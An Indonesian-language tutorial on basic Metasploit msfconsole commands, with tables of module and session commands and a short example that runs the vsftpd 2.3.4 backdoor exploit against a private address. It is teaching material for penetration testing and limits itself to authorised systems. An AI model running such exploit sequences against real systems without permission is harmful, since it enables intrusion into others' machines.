# Perintah Dasar MSFconsole

## A. Apa Itu MSFconsole?

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan msfconsole:

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia. |
| `search <keyword>` | Mencari `exploit`, `payload`, `auxiliary`, `dll`. |
| `use <nama_modul>` | Memilih modul tertentu untuk digunakan. |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih. |
| `show options` | Menampilkan parameter yang bisa diatur pada modul. |
| `set <parameter> <nilai>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`). |
| `unset <parameter>`	| Menghapus nilai parameter yang telah diatur. |
| `show payloads	`| Menampilkan semua payload yang kompatibel. |
| `show exploits`	| Menampilkan semua exploit yang tersedia. |
| `show auxiliary` | Menampilkan modul bantu seperti scanner. |
| `exploit` atau `run` | Menjalankan modul exploit. |
| `back` | Kembali ke menu utama dari modul. |
| `exit` atau `quit` | Keluar dari msfconsole. |

## D. Contoh Penggunaan Sederhana:

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <id>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <id>` | Menghentikan session tertentu |

## Tips Tambahan

- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <id>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.
